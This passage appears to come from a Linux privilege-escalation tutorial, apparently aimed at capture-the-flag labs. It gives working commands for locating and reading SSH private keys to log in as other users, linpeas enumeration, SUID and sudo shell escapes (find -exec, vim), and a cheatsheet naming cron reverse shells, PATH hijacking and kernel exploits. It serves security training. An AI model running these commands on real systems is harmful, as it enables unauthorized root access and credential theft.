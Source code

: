 Check for SSH keys:

```bash
find / -name id_rsa 2>/dev/null
cat ~/.ssh/id_rsa
```

If readable by low-priv user, copy it and connect as another user:

```bash
ssh -i id_rsa user@target
```

***

### IV. 🧠 Real-World PrivEsc Workflow

```bash
# Step 1: System Recon
whoami && hostname && uname -a

# Step 2: Enumeration
linpeas.sh > enum.txt

# Step 3: Identify Weak Points
grep -E "SUID|CRON|sudo" enum.txt

# Step 4: Exploit
sudo -l
find / -perm -4000 -type f 2>/dev/null
```

After root:

```bash
id && whoami && cat /root/root.txt
```

***

### V. 🧰 Quick Cheatsheet

| Vector              | Key Command                      | Example Exploit                          |
| ------------------- | -------------------------------- | ---------------------------------------- |
| **SUID Binary**     | `find / -perm -4000 2>/dev/null` | `/usr/bin/find . -exec /bin/sh \; -quit` |
| **Sudo Misconfig**  | `sudo -l`                        | `sudo vim -c ':!/bin/sh'`                |
| **Cron Job Abuse**  | `cat /etc/crontab`               | Append reverse shell to job file         |
| **Kernel Exploit**  | `uname -r`                       | DirtyPipe / DirtyCow                     |
| **PATH Hijack**     | `echo $PATH`                     | Replace binary with malicious one        |
| **Writable Script** | `ls -la /etc/*.sh`               | Inject commands                          |
| **SSH Key Looting** | `find / -name id_rsa`            | Copy key, SSH as user                    |

